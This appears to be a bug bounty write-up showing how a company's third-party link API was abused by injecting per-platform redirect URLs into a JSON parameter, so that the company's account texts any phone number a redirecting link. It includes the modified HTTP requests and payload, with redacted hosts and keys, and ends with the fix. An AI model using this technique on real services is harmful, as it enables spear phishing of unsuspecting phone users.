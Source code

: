 ### Spear texting via parameter injection

This write-up focuses on how to take advantage of api knowledge and spotting opportunity when the right Burp request presents itself. By default the api lets you generate links with a public key, but this finding was combined with an insecure account policy that allowed me to text any cell phone number with a custom link after customizing the parameters en route. The link I sent them could be used to redirect the users anywhere on the wild internet. There's three main points to this write-up and how this finding was exploited. One proxy all requests and follow the redirect. Two read third party api documentatoin for exploitable implimentations. Three support your proof of concept with official documentation to boost report quality. Now lets go over the methodology and techniques.

#### Intial POST request with parameters

The main website load in Firfox development tools que'd me to a GET request going to an external api. After inputing a cell phone number and clicking the link for the Android/IOS application download a POST request was sent to the third party api with the account that was owned by the company. The next plan of action was reading the documentation to see if I could manipulate the request.

```
POST /v1/url HTTP/1.1
Host: redacted
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://redacted
Content-Type: application/x-www-form-urlencoded
Content-Length: 644
Origin: https://redacted
Connection: close

scope=sms&data={"title":"redacted","description":"redacted","image":"redacted","video":null,"type":"website","desktop":"http://www.example.com","android":"http://www.example.com","ios":"http://www.example.com","fallback":"http://www.example.com"}&identity=redacted&source=web-sdk&browser=redacted&sdk=redacted&session_id=629935681409903301&key=redacted

```

1. Used a json data param to send specific info to the company account which relayed to the user.

2. This data was redirected to another internal api endpoint with a number parameter.

```
POST /c/7FFwBoCcIU HTTP/1.1
Host: redacted
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://redacted
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: https://redacted
Connection: close

sdk=web2.49.0&phone=redacted&redacted_key=redacted

```

Conclusively if I could change the data that generated the link, then redirect request would send my crafted link as the company.

#### Importance of reading documentation

Software documentation is not only good for building software quickly, It's also great for figuring out ways to break software or expose weak points. This third party api's documentation allowed me to find out that I could set a redirect based on the platform used. In this case the platform was for Android. As a test case I set example.com as the url for each platform to overide the deep link settings. 

"desktop":"http://www.example.com","android:"http://www.example.com","ios":"http://www.example.com","fallback":"http://www.example.com"

#### Proof of concept

This step involved proxying two requests. The first request was a POST request that sent data to the account which created the link, and the second was the endpoint that sent the link to the cell phone number. 

The initial POST request had only an android parameter:

scope=sms&data={"title":"Redacted,"description":"Redacted","image":"https://redacted","video":null,"type":"website","android":"http://www.example.com"}&identity=redacted&source=web-sdk&browser=redacted&sdk=web2.49.0&session_id=redacted&key=redacted

After reading the api documentation I learned their was a redirect property for every type of platform. Setting the same redirect for every platform (Desktop, Android, IOS) guaranteed a user clicking the link would go to the url I set on all platforms. Researching the api elevated the impact since this turned into a cross-platform spear text phishing attack.

- Adding parameters to data={}

It was important to keep the json formatting.

##### Final payload

scope=sms&data={"title":"redacted","description":"redacted","image":"redacted","video":null,"type":"website","desktop":"http://www.example.com","android":"http://www.example.com","ios":"http://www.example.com","fallback":"http://www.example.com"}&identity=redacted&source=web-sdk&browser=redacted&sdk=redacted&session_id=629935681409903301&key=redacted

[/images/speartextpostrequest.png](/images/speartextpostrequest.png)

##### Modified requests

POST /v1/url HTTP/1.1
Host: redacted
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://redacted
Content-Type: application/x-www-form-urlencoded
Content-Length: 644
Origin: https://redacted
Connection: close

scope=sms&data={"title":"redacted","description":"redacted","image":"redacted","video":null,"type":"website","desktop":"http://www.example.com","android":"http://www.example.com","ios":"http://www.example.com","fallback":"http://www.example.com"}&identity=redacted&source=web-sdk&browser=redacted&sdk=redacted&session_id=629935681409903301&key=redacted

- Redirects to text message endpoint

POST redacted HTTP/1.1
Host: redacted
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: redacted
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: redacted
Connection: close

sdk=redacted&phone=yournumberhere&key=redacted

[/images/speartextpostrequest2.png](/images/speartextpostrequest2.png)

Text message received

[/images/linkreceived.jpg](/images/linkreceived.jpg)

After pressing the link

[/images/afterclickinglink.jpg](/images/afterclickinglink.jpg)

#### The fix

The redirect scope could be restricted within the companies account. The following response on each platform endpoint guaranteed the scope for the companies api key was restricted successfully.

```
HTTP/1.1 400 Bad Request
Content-Type: application/json
Content-Length: 112
Connection: close
Access-Control-Allow-Origin: *
Date: redacted
Server: redacted/1.13.6.2
X-Cache: Error from cloudfront

{"error":{"code":400,"message":"Invalid value for property of 'desktop', url doesn't pass security tests"}}

```